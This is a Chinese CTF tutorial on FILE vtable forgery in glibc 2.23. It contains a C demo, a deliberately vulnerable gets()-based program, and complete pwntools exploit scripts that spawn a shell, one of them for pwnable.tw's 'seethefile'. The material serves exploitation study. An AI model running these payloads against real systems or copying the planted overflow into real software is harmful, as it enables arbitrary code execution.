


# vtable伪造

​       libc2.23 版本下，位于 libc 数据段的 vtable 是不可以进行写入的，在之前的版本的利用就不叙述了。虽然libc 数据段的 vtable不可以写入，但是可以通过伪造vtable并且修改_IO_FILE_plus->vtable这个指针来实现劫持程序流程。

直接用wiki上的例子

```c
#define system_ptr 0x7ffff7a523a0;
#include<stdio.h>
#include<stdlib.h>
#include<string.h>
int main(void)
{
    FILE *fp;
    long long *vtable_addr,*fake_vtable;

    fp=fopen("123.txt","rw");
    fake_vtable=malloc(0x40);

    vtable_addr=(long long *)((long long)fp+0xd8);     //vtable offset

    vtable_addr[0]=(long long)fake_vtable;

    memcpy(fp,"sh",3);

    fake_vtable[7]=system_ptr; //xsputn

    fwrite("hi",2,1,fp);
}
```

**vtable 中的函数调用时会把对应的\_IO\_FILE\_plus 指针作为第一个参数传递，也就是\_flags成员变量。**

这里伪造fp的vtable指针，使其指向我们伪造好的区域，fwrite会调用\_IO\_jump\_t中偏移为0x38的指针（\__xsputn），让它指向system函数，而fp->\_flags上直接放“sh”字符串。运行fwrite时实际上去执行system("sh")。（gdb调试运行，不可直接运行，要不然system的地址不正确）


注：stdin\stdout\stderr这些\_IO\_FILE\_plus结构体变量也是可以被修改的，这些流在 printf\scanf 等函数中就会被使用到。在 libc2.23 之前，这些 vtable 是可以写入并且不存在其他检测的。


#### 例1

源码如下example.c

```c
#include<stdio.h>
#include<stdlib.h>
char buf1[0x20]={0};     //0x601080
FILE *fp=NULL;           //0x6010a0
char buf2[0x400]={0};    //0x6010c0
void backdoor(){
	system("no sh");
}
int main(){
	fp = fopen("key.txt","rw");
	gets(buf1);
	fclose(fp);
}
```

编译命令

```shell
$ gcc -g example.c -o example -no-pie
```

明显的溢出，不过是在bss段，可以覆盖fp指针和buf2，此处把伪造的file结构体和vtable结构体分别放在buf2上和buf2+0x200上。

file结构体需要伪造的地方

1，\_flags         修改为"/bin/sh" 作为vtable调用时的第一个参数

2，\_lock

\_IO\_acquire\_lock，此处存在一个对\_lock的调用，而\_lock是一个指针，指向一个结构体\_IO\_lock\_t，这里只需要让这个指针指向一个合法的地址，并且0x18个字节内的值全是‘\x00’即可。

```c
typedef struct { int lock; int cnt; void *owner; } _IO_lock_t;
```





3，vtable指向我们伪造的vtable结构

<br></br>


vtable中需要构造的地方

1，\_\_close

这里改成我们需要执行的地方(system_plt)

寻找方法：可以用peda的pattern create 寻找




漏洞触发方式：执行fclose时，调用了vtable上的\_\_close（被伪造位system_plt的地址）


最终exp

```python
from pwn import*
context.log_level = 'debug'
p = process('./example')
elf = ELF('./example')
system = elf.plt['system']

buf2 = 0x6010c0 
fake_vtable_ptr = buf2+0x200

fake_file = '/bin/sh\x00'.ljust(0x88,'\x00')+p64(buf2+0x400)
fake_file = fake_file.ljust(0xd8,'\x00')+p64(fake_vtable_ptr)

fake_vtable = '\x00'*0x88+p64(system)

payload = 'a'*0x20+p64(buf2)+p64(0)*3
payload += fake_file.ljust(0x200,'\x00')
payload += fake_vtable
#gdb.attach(p,'b *0x40063a')
p.sendline(payload)

p.interactive()
```


#### 例2

pwnable.tw上的seethefile

附件下载（可能被墙）：https://pwnable.tw/static/chall/seethefile

32位程序，攻击方法和例1一样，只是各个结构体成员的偏移量不一样而已。


main函数伪代码

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char nptr; // [esp+Ch] [ebp-2Ch]
  unsigned int v4; // [esp+2Ch] [ebp-Ch]

  v4 = __readgsdword(0x14u);
  init();
  welcome();
  while ( 1 )
  {
    menu();
    __isoc99_scanf("%s", &nptr);
    switch ( atoi(&nptr) )
    {
      case 1:
        openfile();
        break;
      case 2:
        readfile();
        break;
      case 3:
        writefile();
        break;
      case 4:
        closefile();
        break;
      case 5:
        printf("Leave your name :");
        __isoc99_scanf("%s", &name);
        printf("Thank you %s ,see you next time\n", &name);
        if ( fp )
          fclose(fp);
        exit(0);
        return;
      default:
        puts("Invaild choice");
        exit(0);
        return;
    }
  }
}
```

主要功能：

1）openfile：打开文件，文件指针就是fp，不能打开文件名为flag的文件

2）readfile：从fp读取0x18F个字节到magicbuf上

3）closefile：关闭文件，指针fp赋0

4）writefile：只是一个打印函数，而不能写入，不能打印flag,FLAG,}名的文件

case 5处有明显的溢出，可以覆盖fp指针。

相对来说比较新颖的是，这里libc的获取

由于linux独特的文件形式存储，文件的内存信息存储与/proc/pid/maps中，这里pid使用self来代替。

参考文章   http://p4nda.top/2017/09/20/pwnable-tw-seethefile/


利用这里利用方法和例1一致就不再赘述，直接上exp

```python
from pwn import*
context.log_level = 'debug'
context.update(arch='amd64',os='linux',timeout=1)
p = process('./seethefile')
#p = remote('',)
libc = ELF('/lib/i386-linux-gnu/libc.so.6')

def pr(a,addr):
	log.success(a+'===>'+hex(addr))
def openfile(name):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('to see :')
    p.sendline(name)

def readfile():
    p.recvuntil('Your choice :')
    p.sendline('2')

def writefile():
    p.recvuntil('Your choice :')
    p.sendline('3')

def closefile():
    p.recvuntil('Your choice :')
    p.sendline('4')
 
def exit(name):
    p.recvuntil('Your choice :')
    p.sendline('5')
    p.recvuntil('your name :')
    p.sendline(name)

name_addr = 0x804b260
openfile('/proc/self/maps')
readfile()
writefile()
readfile()
writefile()
p.recvuntil('f7')
libcbase = int('0xf7'+p.recv(6),16)+0x1000
system = libcbase + libc.sym['system']
pr('libcbase',libcbase)
pr('system',system)
#gdb.attach(p,'b *0x8048B0F')
fake_file = ('sh'+'\x00'*2).ljust(0x48,'\x00')+p32(0x804b500)
fake_file = fake_file.ljust(0x94,'\x00')+p32(name_addr+0x20+0x94+4)
fake_vtable = '\x00'*64 + p32(system)
payload = 'a'*0x20 + p32(0x0804B284) + fake_file + fake_vtable
exit(payload)
p.interactive()

```

